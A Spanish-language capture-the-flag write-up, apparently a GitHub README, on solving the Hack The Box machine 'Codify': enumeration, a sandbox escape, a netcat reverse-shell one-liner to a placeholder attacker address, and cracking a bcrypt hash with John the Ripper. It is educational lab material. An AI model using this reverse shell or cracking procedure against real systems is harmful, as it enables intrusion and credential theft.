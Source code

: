 # Solución para "Codify" - Hack The Box

Este repositorio contiene una detallada guía paso a paso sobre cómo resolví la máquina "Codify" en Hack The Box. Mi objetivo es proporcionar tanto a los entusiastas de la ciberseguridad como a los profesionales, una referencia útil y educativa que puedan seguir para entender y replicar el proceso de resolución. Cualquier aportación, corrección o protip se agradece.

## Contenido

- **Análisis Inicial**: Una descripción completa del análisis inicial que realicé para identificar los vectores de ataque posibles en "Codify".
- **Enumeración**: Detalles sobre las herramientas y técnicas que utilicé para la enumeración de servicios, puertos y vulnerabilidades.
- **Explotación**: Un paso a paso de cómo exploté las vulnerabilidades encontradas para ganar acceso inicial al sistema.
- **Escalada de Privilegios**: Explicación de cómo escalé privilegios para obtener un acceso más profundo al sistema, incluyendo cualquier técnica y herramienta utilizada.
- **Post-Explotación**: Una visión general de las acciones realizadas después de obtener el acceso deseado, como la recolección de banderas y la extracción de datos sensibles.
- **Conclusión y Aprendizaje**: Reflexiones sobre el desafío, qué aprendí durante el proceso y consejos para quienes intenten resolver "Codify".
- **Recursos y Herramientas**: Una lista de todas las herramientas, scripts y recursos externos que me fueron útiles durante la resolución de la máquina.

## Objetivo Educativo

El propósito principal de este repositorio es educativo. Busco compartir mi enfoque y las lecciones aprendidas con la comunidad para que otros puedan aprender de la experiencia y, potencialmente, aplicar estos conocimientos en sus propios desafíos de pentesting y ciberseguridad.

## Análisis Inicial y Enumeración

El primer paso en cualquier desafío de CTF (Capture The Flag) es comprender el terreno. Para ello, arranqué la máquina "Codify" en Hack The Box y utilicé `nmap`, una herramienta esencial en el arsenal de cualquier entusiasta de la seguridad, para realizar un escaneo de los puertos. El escaneo reveló tres puertos abiertos: 22 (SSH), 8080 y 3000.

![NMAP](./img/Nmap.PNG)

El puerto 8080 generalmente aloja aplicaciones web, pero en este caso, intentar acceder resultó en una redirección a un callejón sin salida. Los desarrolladores a menudo utilizan el puerto 3000 para pruebas locales, lo que me hizo pensar que podría contener una pista crucial. Al visitar este puerto en mi navegador, me encontré con una página web que presentaba un entorno sandbox para ejecutar código Javascript

## Explotación del Entorno Sandbox

La página web en el puerto 3000 era un rompecabezas en sí misma, dividida en varias secciones incluyendo 'About Us', 'Editor', 'Limitations', y una página de bienvenida. La sección 'Limitations' era particularmente interesante, ya que detallaba las restricciones impuestas a la ejecución del código, excluyendo explícitamente módulos potencialmente peligrosos como `fs` y `child_process`. Estas restricciones sugieren una protección consciente contra ataques maliciosos, pero también señalan hacia las vulnerabilidades que el creador consideró más críticas.

La verdadera mina de oro estaba en 'About Us', donde se mencionaba la librería usada para sandboxing. Una búsqueda en el repositorio de GitHub de la librería reveló varias vulnerabilidades documentadas. Probé varias hasta encontrar una que permitiera ejecutar código fuera del sandbox, utilizando [Gist de GitHub](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

## Establecimiento de un Shell Inverso

Ahora que estaba fuera del sandbox, el siguiente paso lógico era establecer un shell inverso. Este proceso, aunque familiar, requirió paciencia y precisión para adaptar el ataque al entorno específico de "Codify". Tras varios intentos y ajustes de mi payload, `netcat` me brindó ese preciado prompt de shell, marcando la primera victoria significativa en esta batalla.

Payload: mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ATACANTE PUERTO_ATACANTE > /tmp/f; rm /tmp/f


## Escalada de Privilegios: El Desafío Continúa

Con acceso al sistema, el siguiente objetivo era escalar privilegios. Este paso se convirtió en el más desafiante. Navegando por los directorios del sistema, encontré un archivo que parecía contener una contraseña, oculta en el formato de un hash bcrypt. La naturaleza del hash sugería una fortaleza significativa, pero también representaba una pista crítica hacia la obtención de mayores privilegios en la máquina.
Utilizando la herramienta John The Ripper y la wordlist rockyou, consigo crackear el hash: 
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hashJoshua.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashJoshua.txt 

Pruebo a iniciar sesión como el usuario Joshua utilizando la contraseña del hash, y consigo acceso al usuario.
En su directorio home se encuentra la user flag, primer objetivo cumplido, pero ahora debo intentar escalar privilegios hacia el usuario root.

Utilizando el comando sudo -l se puede observar que el usuario joshua puede ejecutar mysql-backup.sh como root. Lo que nos da un punto de apoyo para poder escalar privilegios.

